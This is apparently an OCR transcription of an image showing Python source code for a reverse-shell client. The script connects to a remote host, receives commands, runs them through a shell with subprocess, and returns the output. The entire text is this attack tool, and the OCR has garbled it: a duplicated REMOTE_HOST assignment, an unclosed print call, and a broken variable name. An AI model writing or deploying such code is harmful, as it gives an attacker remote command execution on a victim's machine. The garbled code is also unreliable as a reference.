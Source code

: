 # Python

import socket

import subprocess

​

REMOTE\_HOST = '10.X.X.X'

REMOTE\_HOST = 4231

​

client = socket.socket()

print ("Starting Connection..."

​

client.connect((REMOTE\_HOST, REMOTE \_PORT))

print ("Connected")

​

while True:

print ("Command Awaiting")

command = client.recv(1024)

command = command.decode()

op = subprocess.Popen(command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE)

said = op.stdout.read()

error\_said = op.stderr.read()

print("Send Response")

client.send (said + error\_said)
